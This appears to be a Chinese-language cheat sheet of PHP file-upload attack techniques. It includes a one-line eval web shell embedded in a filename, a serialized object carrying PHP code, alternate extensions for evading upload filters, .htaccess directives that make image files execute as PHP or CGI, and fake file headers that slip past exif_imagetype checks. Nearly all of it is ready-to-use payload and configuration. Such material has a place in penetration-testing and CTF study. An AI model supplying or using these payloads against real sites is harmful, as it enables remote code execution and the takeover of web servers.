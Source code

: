**短标签:**
PHP开启短标签即short_open_tag=on时，可以使用<?=$_?>输出变量
filename=`"<?=@eval($_POST['a']);?>"`

**序列化木马：**
```php
<?php
class A{
    var $a = "<?php phpinfo()?>";
}
$aa = new A();
echo serialize($aa);
?>
```

__扩展名绕过：__
Asp:asa cer cdx
Aspx:ashx asmx ascx
Php:php php3 php4 php5 php7 pht phtml phps
Jsp:jspx jspf

#### .htaccess
##### 图片马解析
SetHandler 指令可以强制所有匹配的文件被一个指定的处理器处理
```
<FilesMatch "xxx">
SetHandler application/x-httpd-php
</FilesMatch>
```
匹配到文件名中含有xxx的字符 就以php形式去解析
```
SetHandler application/x-httpd-php
```
当前目录及其子目录下所有文件都会被当做 php 解析

AddType 指令可以将给定的文件扩展名映射到指定的内容类型
```
AddType application/x-httpd-php .jpg
```
使jpg文件都解析为php文件

**CGI命令执行**
AddHandler 指令可以实现在文件扩展名与特定的处理器之间建立映射
```php
Options ExecCGI #允许CGI执行
AddHandler cgi-script .xxx #将xx后缀名的文件，当做CGI程序进行解析
```

**绕过exif_imagetype**
`.htaccess`上传的时候不能用GIF89a等文件头去绕过exif_imagetype，因为这样虽然能上传成功，但`.htaccess`文件无法生效。这时有两个办法:
一：
```
#define width 1337
#define height 1337
```
二：
在.htaccess前添加`x00x00x8ax39x8ax39`(要在十六进制编辑器中添加，或者使用python的bytes类型)
`x00x00x8ax39x8ax39` 是wbmp文件的文件头
`.htaccess`中以0x00开头的同样也是注释符，所以不会影响.htaccess
